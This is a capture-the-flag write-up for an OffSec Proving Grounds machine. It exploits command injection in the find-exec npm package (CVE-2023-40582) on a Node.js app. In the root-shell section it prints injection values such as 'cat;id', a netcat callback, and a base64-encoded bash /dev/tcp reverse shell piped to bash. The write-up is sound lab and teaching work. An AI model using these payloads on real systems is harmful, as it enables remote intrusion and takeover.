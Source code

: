 ```yaml
---

title: CTF-200-05 (OffSec. Proving Grounds)
image: /assets/writeups/trace8.jpg
description: Write-up of CTF-200-05 Machine
date: 2023-12-28 09:00:00 -3000
categories: [proving grounds]
tags: [find-exec, CVE, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Nmap scan report for 192.168.249.36 (192.168.249.36)
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Node.js Express framework
|_http-title: Command Guess Game
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 3000:

Visiting Port 3000 we get greeted by this page


![port3000.png](../../assets/writeups/2023-12-27-CTF-200-05/port3000.png)

nothing too crazy here it just checks if the command exist,whats important here is to look at the bottom part of the webpage where it says `find-exec v1.0.2`

![find-execvuln.png](../../assets/writeups/2023-12-27-CTF-200-05/find-execvuln.png)

that package is vulnerable to `CVE-2023-40582` [Command Injection in find-exec | CVE-2023-40582 | Snyk](https://security.snyk.io/vuln/SNYK-JS-FINDEXEC-5876637)

> POC

```js
const findexec = require('find-exec');
findexec("; touch hacked")
```

so what it means is we can do something like `cat;id` and after the cat is executed it executes the id command too. Using that we get the reverse shell 

## Root User:

Initially I ran just simple `cat; nc <IP> 7777` which did got a callback but wasn't responsive so it must be `-e` switch of nc causing the problem so we can just encode the payload and send it again

```bash
echo "/bin/bash -i >& /dev/tcp/<IP>/7777 0>&1" | base64
L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=
```

and running that,

```bash
cat;echo "L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=" | base64 -d | bash
```

we get a perfect root shell

![perfectrootshell.png](../../assets/writeups/2023-12-27-CTF-200-05/perfectrootshell.png)




